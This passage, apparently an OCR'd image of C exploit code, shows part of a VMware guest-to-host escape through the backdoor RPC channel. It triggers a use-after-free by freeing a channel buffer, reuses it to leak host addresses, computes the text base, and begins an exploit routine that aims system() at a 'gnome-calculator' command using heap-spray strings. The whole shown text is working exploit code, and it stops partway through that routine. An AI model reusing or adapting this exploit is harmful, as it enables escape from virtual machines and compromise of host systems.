 ```cpp=
    //free the output buffer
    printf("Free the buffer again...\n");
    getchar();
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }

    printf("Trying to reuse the buffer as a struct, which we can leak..\n");
    getchar();
    run_cmd(s5);
    printf("Should be done.Check the buffer\n");
    getchar();

    //Now the output buffer of chan[1] is used as a struct, which contains many addresses
    channel_recv_reply_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }


    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,i,data,&res);
    }
    printf("recv data:\n");
    for(i=0;i<len;i+=8){
        printf("recv data:%lx\n",*(long long *)&data[i]);
    }
    text = (*(uint64_t *)data)-0xf818d0;

    printf("Leak Success\n");
}

void exploit(){
    //the exploit step is almost the same as the leak ones
    struct channel chan[10];
    int res=0;
    int len,i;
    char *data;
    char *s1 = "info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s2 = "info-get guestinfo.b";
    char *s3 = "1 BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s4 = "gnome-calculator\x00";
    uint64_t pay1 =text+0xFE95B8; 
    uint64_t pay2 =text+0xECFD0; //system
    uint64_t pay3 =text+0xFE95C8;
    char *pay4 = "gnome-calculator\x00";
    run_cmd(s1);
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
```